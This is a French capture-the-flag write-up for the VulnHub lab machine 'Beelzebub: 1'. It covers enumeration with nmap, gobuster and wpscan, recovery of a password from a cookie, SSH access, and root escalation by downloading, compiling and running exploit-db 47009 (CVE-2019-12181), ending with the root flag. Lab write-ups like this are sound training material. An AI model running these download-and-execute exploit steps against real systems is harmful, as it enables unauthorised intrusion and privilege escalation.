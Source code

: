 ```yaml
---
title: "CTF Beelzebub: 1"
date: 2021-11-09
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/beelzebub-1,742
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.3** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.31`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir beelzebub1 && cd beelzebub1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

On a un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.29 sur le port **80**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,xml,zip -o gobuster.txt
/index.php            (Status: 200) [Size: 271]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 317] [--> http://192.168.1.31/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://192.168.1.31/phpmyadmin/]
```

Sur le fichier "index.php", on a le message "Not Found" alors que si on regarde dans le code source, on a un indice.

```bash
$ curl -i http://$IP/index.php 
HTTP/1.1 200 OK
[...]
<!--My heart was encrypted, "beelzebub" somehow hacked and decoded it.-md5-->
```

On décode la chaine de caractère "beelzebub" en md5.

```bash
$ echo -n beelzebub | md5sum
d18e1e22becbd915b45e0e655429d487
```

Si on tente d'accéder au serveur avec cette chaine de caractères, on a une erreur de redirection 301.

```bash
$ curl -i http://$IP/d18e1e22becbd915b45e0e655429d487
HTTP/1.1 301 Moved Permanently
[...]
```

Intéressant, poursuivons avec un **Gobuster** sur cette URL.

```bash
$ gobuster dir -u http://$IP/d18e1e22becbd915b45e0e655429d487 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,xml,zip -o gobuster2.txt
/index.php            (Status: 200) [Size: 57718]
/wp-content           (Status: 301) [Size: 350] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-content/]
/wp-login.php         (Status: 200) [Size: 5694]                                                                      
/license.txt          (Status: 200) [Size: 19935]                                                                     
/wp-includes          (Status: 301) [Size: 351] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-includes/]
/readme.html          (Status: 200) [Size: 7368]                                                                       
/wp-admin             (Status: 301) [Size: 348] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42] 
```

Apparement, on est sur un répertoire du CMS **Wordpress**.

Dans le répertoire "/d18e1e22becbd915b45e0e655429d487/wp-content/uploads"/ il y a 2 dossiers, "2021" et "Talk To VALAK". Dans ce second dossier, on arrive une page Web qui nous demande de saisir un nom. En soumettant le formulaire (bouton "Say Hi to VALAK"), on trouve un éventuel mot de passe dans le cookie de la requête POST.

```bash
curl -i -d 'name=john' http://$IP/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/Talk%20To%20VALAK/index.php
Set-Cookie: Password=M4k3Ad3a1
```

Il nous manque l'utilisateur de cet éventuel mot de passe.

```bash
wpscan --url http://$IP/d18e1e22becbd915b45e0e655429d487 -e u --ignore-main-redirect --force
[+] valak
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] krampus
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

## Pénétration

On arrive à se connecter au serveur avec le second utilisateur.

```bash
$ ssh krampus@$IP
password: M4k3Ad3a1
```

## Escalation

Dans le répertoire courant de l'utilisateur, on retrouve un historique des commandes intéressantes dont celle ci-dessous.

```bash
cat .bash_history
wget https://www.exploit-db.com/download/47009
mv 47009 ./exploit.c
gcc exploit.c -o exploit
./exploit
```

Elle nous indique l'exploit à utiliser, "CVE-2019-12181 : Serv-U FTP Server < 15.1.7 - Local Privilege Escalation".

```bash
$ cd /tmp
$ wget https://www.exploit-db.com/download/47009 -O exploit.c
$ gcc exploit.c -o exploit
$ ./exploit

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
opening root shell
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
```

Et on trouve facilement le flag root.

```bash
$ cat /root/root.txt
8955qpasq8qq807879p75e1rr24cr1a5
```
